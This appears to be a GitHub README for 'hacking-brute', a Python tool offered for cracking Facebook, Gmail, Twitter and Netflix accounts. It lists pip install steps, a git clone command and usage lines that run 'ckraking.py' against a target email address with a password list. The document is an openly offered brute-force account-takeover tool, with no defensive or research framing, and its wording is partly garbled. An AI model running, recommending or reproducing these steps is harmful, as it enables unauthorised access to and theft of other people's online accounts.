 # hacking-brute
Installation 
pip3 install proxylist
pip3 install mechanize

Ckraking Facebook and Gmail and twitter and Netflix 

Hacking Facebook, Twitter, gmail and Netflix 
In order for the script to work, you must first use the Python language No.  version 1

git clone https://github.com/hmida125/hacking-brute

Cd hacking-brute
Ls
python ckraking.py
_______________________________________________

Exemple:facebook


python ckraking.py -f emailadress -l passwordlist.txt

Exemple:gmail

python ckraking.py -g emailadress -l passwordlist.txt

Exemple:twitter

python ckraking.py -T emailadress -l passwordlist.txt

Exemple:Netflix 

python ckraking.py -n emailadress -l passwordlist.txt
